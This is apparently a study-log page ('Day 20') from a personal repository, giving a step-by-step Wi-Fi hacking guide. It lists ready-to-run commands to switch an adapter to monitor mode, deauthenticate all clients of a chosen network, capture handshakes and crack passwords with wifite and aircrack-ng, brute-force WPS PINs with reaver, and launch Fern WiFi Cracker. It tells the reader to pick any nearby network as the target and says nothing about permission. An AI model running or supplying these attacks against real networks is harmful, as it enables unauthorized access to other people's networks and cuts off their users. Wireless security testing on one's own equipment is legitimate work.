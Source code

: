# ♦ Day 20
</br>
</br>

## ◙ ***Wi-Fi Hacking***
 </br>
 
# ♦ Note : 
   ⇨ For Wi-Fi hacking a special peace of hardware... An External WiFi Adapter and there is more not all WiFi adapters acn abe used for these things Therer a special types preferably with antenas Or Alfa Network Adapters 
   </br>
   </br>
### ◙ Step-By-Step Guide :

### ♦ 1. Configuring VirtualBox :

  1 ⇨ 1st Connect the WiFi Adapter.
  2 ⇨ Now Open VirtaulBox > Select your Machine > Go to Settings > Go to USB.
  3 ⇨ Now Go to +(add) Sign > Select ur device and add it > Click on Ok and save.

 • After Completeing Setting go to The terminal.

### ♦ 2. Setting-up the WiFi in KALI :
    
  1 ⇨ 1st Check th econnection as USB :

     lsusb

  2 ⇨ Now Check whether the Adapter is in monitor or m,anage mode (In which mode the edvice is.)

    iwconfig

  3 ⇨ If it is in Manage mode then change it in Monitor mode cuz we have to do our work in Monitor mode.

     sudo airmon-ng start wlan0



### ♦ 3. Wi-Fi Scanning :

 1 ⇨ Search for WiFi networks nearby :

     sudo airodump-ng wlan0mon
• NOTE ⇨ Ensure the signal strength is above 30 for better results.


## ♦ 4. Commencing our long awaited WiFi Attack :
  
  ⇨ For WiFi attack we will use `wifite` this is an automatic and highly Recomended tool which switches the wifi ti monitor mode and also start scanning the surrounding networks.


#### How Wifite Works :

• Sends deauthentication packets to the router, disconnecting all users.

• Captures the target's packets when users attempt to reconnect, generating a .pcap file.

• Uses a common wordlist to brute force the Wi-Fi password from the captured packets.

• Once successful, you will obtain the Wi-Fi password and can connect to the network.


### Starting the Attack :

 #### • 1. Install Wifite if not pre installed :

    sudo apt-get update
    sudo apt-get install wifite

#### • 2. Start Wifite :

     sudo wifite

#### • 3. **Follow the prompts to select your target network and initiate the attack.**
   • Wifite will display a list of detected networks.
  
   • Select the network you want to target.
   
   • Wifite will automatically deauthenticate users, capture the handshake, and attempt to crack the password using a wordlist.



### ◙ Additional Tools for Wi-Fi Penetration Testing :

#### • Aircrack-ng Suite :

Aircrack-ng is a complete suite of tools to assess WiFi network security.


• 1. **Capture packets:**
    ```sh
    sudo airodump-ng wlan0mon
    ```
    - Use this command to capture packets from a specific network:
    ```sh
    sudo airodump-ng --bssid [BSSID] -c [CHANNEL] -w [CAPTURE_FILE] wlan0mon
    ```


• 2. **Deauthenticate a client:**
    ```sh
    sudo aireplay-ng --deauth 0 -a [BSSID] wlan0mon
    ```


• 3. **Crack the password:**
    ```sh
    sudo aircrack-ng -w /path/to/wordlist.txt -b [BSSID] [CAPTURE_FILE].cap
    ```


#### ◙ Reaver
Reaver is a tool for performing brute force attacks against WPS (Wi-Fi Protected Setup) registrar PINs.


• 1. **Put the interface in monitor mode:**
    ```sh
    sudo airmon-ng start wlan0
    ```


• 2. **Scan for WPS-enabled networks:**
    ```sh
    sudo wash -i wlan0mon
    ```


• 3. **Run Reaver against a target:**
    ```sh
    sudo reaver -i wlan0mon -b [BSSID] -vv
    ```


#### ◙ Fern WiFi Cracker
Fern WiFi Cracker is a tool for auditing and attacking wireless networks.


• 1. **Install Fern WiFi Cracker:**
    ```sh
    sudo apt-get update
    sudo apt-get install fern-wifi-cracker
    ```


• 2. **Run Fern WiFi Cracker:**
    ```sh
    sudo fern-wifi-cracker
    ```
    - Use the GUI to select your wireless adapter, scan for networks, and initiate attacks.
